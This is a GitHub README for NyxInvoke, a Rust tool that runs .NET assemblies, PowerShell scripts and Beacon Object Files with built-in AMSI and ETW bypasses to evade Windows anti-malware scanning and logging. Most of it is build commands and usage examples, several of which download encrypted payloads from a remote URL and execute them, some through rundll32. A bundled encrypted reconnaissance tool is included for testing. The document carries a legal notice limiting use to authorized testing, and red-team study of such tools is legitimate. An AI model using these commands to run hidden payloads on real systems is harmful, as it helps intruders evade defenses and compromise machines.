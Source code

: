 # NyxInvoke

NyxInvoke is a versatile Rust-based tool designed for executing .NET assemblies, PowerShell commands/scripts, and Beacon Object Files (BOFs) with built-in patchless AMSI and ETW bypass capabilities. It can be compiled as either a standalone executable or a DLL.

## Features

- Execute .NET assemblies
- Run PowerShell commands or scripts
- Load and execute Beacon Object Files (BOFs)
- Built-in patchless AMSI (Anti-Malware Scan Interface) bypass
- Built-in patchless ETW (Event Tracing for Windows) bypass
- Support for encrypted payloads with AES decryption
- Flexible input options: local files, URLs, or compiled-in data
- Dual-build support: can be compiled as an executable or a DLL

## Building

NyxInvoke can be built as either an executable or a DLL. Use the following commands:

### Executable

```
cargo +nightly build --release --target=x86_64-pc-windows-msvc --features exe --bin NyxInvoke
```

### DLL

```
cargo +nightly build --release --target=x86_64-pc-windows-msvc --features dll --lib
```

To include compiled-in CLR or BOF data, add the respective features:

```
cargo +nightly build --release --target=x86_64-pc-windows-msvc --features=exe,compiled_clr,compiled_bof --bin NyxInvoke
```
or
```
cargo +nightly build --release --target=x86_64-pc-windows-msvc --features "dll,compiled_clr,compiled_bof" --lib
```

## Usage

### Executable Mode

The executable supports three main modes of operation:

1. CLR Mode (.NET assembly execution)
2. PowerShell Mode
3. BOF Mode (Beacon Object File execution)

#### General Syntax

```
NyxInvoke.exe <mode> [OPTIONS]
```

Where `<mode>` is one of: `clr`, `ps`, or `bof`.

### DLL Mode

When compiled as a DLL, NyxInvoke can be executed using rundll32. The syntax is:

```
rundll32.exe NyxInvoke.dll,NyxInvoke <mode> [OPTIONS]
```

### Mode-Specific Options

1. CLR Mode:
```text
Execute a .NET assembly

Usage: NyxInvoke.exe clr [OPTIONS] (or rundll32.exe NyxInvoke.dll,NyxInvoke clr [OPTIONS])

Options:
      --args <ARGS>                          Arguments for the executable
      --base <BASE_URL_OR_PATH>              Base URL or Base Path
      --key <KEY_FILENAME_OR_URL>            Key filename or URL
      --iv <IV_FILENAME_OR_URL>              IV filename or URL
      --assembly <ASSEMBLY_FILENAME_OR_URL>  Assembly filename or URL
  -h, --help                                 Print help
```

2. PowerShell Mode:
```text
Execute a PowerShell command or script

Usage: NyxInvoke.exe ps [OPTIONS] (or rundll32.exe NyxInvoke.dll,NyxInvoke ps [OPTIONS])

Options:
      --command <COMMAND>  PowerShell command to execute
      --script <SCRIPT>    Path to a PowerShell script to execute
  -h, --help               Print help
```

3. BOF Mode:
```text
Execute a Beacon Object File (BOF)

Usage: NyxInvoke.exe bof [OPTIONS] (or rundll32.exe NyxInvoke.dll,NyxInvoke bof [OPTIONS])

Options:
      --args <ARGS>...             Arguments for the BOF
      --base <BASE_URL_OR_PATH>    Base URL or Base Path
      --key <KEY_FILENAME_OR_URL>  Key filename or URL
      --iv <IV_FILENAME_OR_URL>    IV filename or URL
      --bof <BOF_FILENAME_OR_URL>  BOF filename or URL
  -h, --help                       Print help
```

## Examples

### Executable Mode

1. CLR Mode (Remote Execution):
   ```
   NyxInvoke.exe clr --base https://example.com/resources --key clr_aes.key --iv clr_aes.iv --assembly clr_data.enc --args arg1 arg2
   ```

2. PowerShell Mode (Script Execution):
   ```
   NyxInvoke.exe ps --script C:\path\to\script.ps1
   ```

3. BOF Mode (Local Execution):
   ```
   NyxInvoke.exe bof --key C:\path\to\bof_aes.key --iv C:\path\to\bof_aes.iv --bof C:\path\to\bof_data.enc --args "str=argument1" "int=42"
   ```

### DLL Mode

1. CLR Mode (Remote Execution):
   ```
   rundll32.exe NyxInvoke.dll,NyxInvoke clr --base https://example.com/resources --key clr_aes.key --iv clr_aes.iv --assembly clr_data.enc --args arg1 arg2
   ```

2. PowerShell Mode (Direct Command Execution):
   ```
   rundll32.exe NyxInvoke.dll,NyxInvoke ps --command "Get-Process | Select-Object Name, ID"
   ```

3. BOF Mode (Compiled Execution):
   ```
   rundll32.exe NyxInvoke.dll,NyxInvoke bof --args "str=argument1" "int=42"
   ```


## Test Resources

In the `resources` directory, you'll find several files to test NyxInvoke's functionality:

1. Encrypted CLR Assembly (Seatbelt):
   - File: `clr_data.enc`
   - Description: An encrypted version of the Seatbelt tool, a C# project for gathering system information.
   - Usage example:
     ```
     NyxInvoke.exe clr --key resources/clr_aes.key --iv resources/clr_aes.iv --assembly resources/clr_data.enc --args AntiVirus
     ```

2. Encrypted BOF (Directory Listing):
   - File: `bof_data.enc`
   - Description: An encrypted Beacon Object File that List user permissions for the specified file, wildcards supported.
   - Usage example:
     ```
     NyxInvoke.exe bof --key resources/bof_aes.key --iv resources/bof_aes.iv --bof resources/bof_data.enc --args "wstr=C:\Windows\system32\cmd.exe"
     ```

## Screenshot


- Dll Compiled CLR Executaion 

![Screenshot 2024-09-18 123147](https://github.com/user-attachments/assets/dd58adbc-50f2-4eb4-9a33-0851bacfe754)


- EXE Remote BOF Executaion 

![Screenshot 2024-09-18 123410](https://github.com/user-attachments/assets/54a20996-7cf3-4cbb-ab4d-6e7973094e80)


- Dll Powershell Script Executaion 

![Screenshot 2024-09-18 123547](https://github.com/user-attachments/assets/6c1e2f53-0d85-45e8-8a38-4a6dcb08a767)




## Legal Notice

This tool is for educational and authorized testing purposes only. Ensure you have proper permissions before use in any environment.

## Credits

- @yamakadi for the [clroxide](https://github.com/yamakadi/clroxide) project
- @hakaioffsec for the [coffee](https://github.com/hakaioffsec/coffee) project

